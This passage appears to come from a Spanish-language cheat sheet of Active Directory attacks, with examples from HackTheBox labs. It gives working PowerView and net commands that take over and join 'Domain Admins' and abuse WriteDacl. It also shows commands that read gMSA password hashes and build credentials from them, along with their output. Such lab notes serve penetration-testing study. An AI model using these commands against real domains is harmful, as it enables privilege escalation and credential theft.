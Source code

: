### Agregar usuario actual a un grupo

```
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
*Evil-WinRM* PS C:\Temp> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity maria
*Evil-WinRM* PS C:\Users\maria\Documents> net group "Domain Admins" maria /add /domain
The command completed successfully.
```

## Abuso WriteDacl

### Agregar usuario a un grupo

```
net group Backup_Admins claire /add
```

## Abuso ReadGMSAPassword

![https://rubbxalc.github.io/writeups/assets/img/Intelligence-htb/4.png](https://rubbxalc.github.io/writeups/assets/img/Intelligence-htb/4.png)

image

### Desde binario externo

```
PS C:\Temp> .\GMSAPasswordReader.exe --accountname bir-adfs-gmsa --domainname search.htb
Calculating hashes for Current Value
[*] Input username             : BIR-ADFS-GMSA$
[*] Input domain               : SEARCH.HTB
[*] Salt                       : SEARCH.HTBBIR-ADFS-GMSA$
[*]       rc4_hmac             : E1E9FD9E46D0D747E1595167EEDCEC0F
[*]       aes128_cts_hmac_sha1 : BBCD2446765F390C680CDA31A9FC1783
[*]       aes256_cts_hmac_sha1 : ECAED51920F8677C5846154F69267FE4875543727C7032690016F7947A8A6F94
[*]       des_cbc_md5          : 3843029E088FB983
```

### Con Powershell

```
PS C:\Temp> $gmsa = Get-ADServiceAccount -Identity 'bir-adfs-gmsa' -Properties 'msDS-ManagedPassword'
PS C:\Temp> $mp = $gmsa.'msDS-ManagedPassword'
PS C:\Temp> $pass = ConvertFrom-ADManagedPasswordBlob $mp
PS C:\Temp> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
PS C:\Temp> $cred = New-Object System.Management.Automation.PSCredential('search.htb\bir-adfs-gmsa',$SecPass)
PS C:\Temp> Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami }
search\bir-adfs-gmsa$
```
